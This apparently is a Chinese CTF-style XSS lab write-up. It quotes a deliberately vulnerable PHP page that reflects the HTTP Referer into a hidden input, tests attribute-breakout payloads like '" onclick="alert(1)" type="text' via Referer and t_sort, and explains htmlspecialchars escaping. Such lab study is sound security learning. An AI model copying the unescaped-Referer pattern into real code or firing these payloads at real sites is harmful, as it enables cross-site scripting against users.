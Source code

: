 refere的位置进行注入试试

<input name="t_ref"  value="123456" onclick="alert(1)" type="text" type="hidden">

123456" onclick="alert(1)" type="text

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

$_SERVER   https://blog.csdn.net/moliyiran/article/details/79806108

$_SERVER['HTTP_REFERER'] #链接到当前页面的前一页面的 URL 地址。就可以用referer注入

看完代码感觉t_sort的位置也是可以传参的

&t_sort=123" onclick="alert(1)" type="text

传值以后显示<input name="t_sort"  value="123&quot; onclick=&quot;alert(1)&quot; type=&quot;text" type="hidden">

```php
&quot;这在HTML中是个转义字符
```

&t_sort=123&quot" onclick=&quot"alert(1)&quot" type=&quot"text

<input name="t_sort"  value="123" type="hidden">

加&quot以后就直接闭合了

然后发现

htmlspecialchars()函数特殊字符转换为HTML实体

双引号都不行

```

    & （和号）成为 &
    " （双引号）成为 "
    ' （单引号）成为 '
    < （小于）成为 <
    > （大于）成为 >

提示：如需把特殊的 HTML 实体转换回字符，请使用 htmlspecialchars_decode() 函数。
```
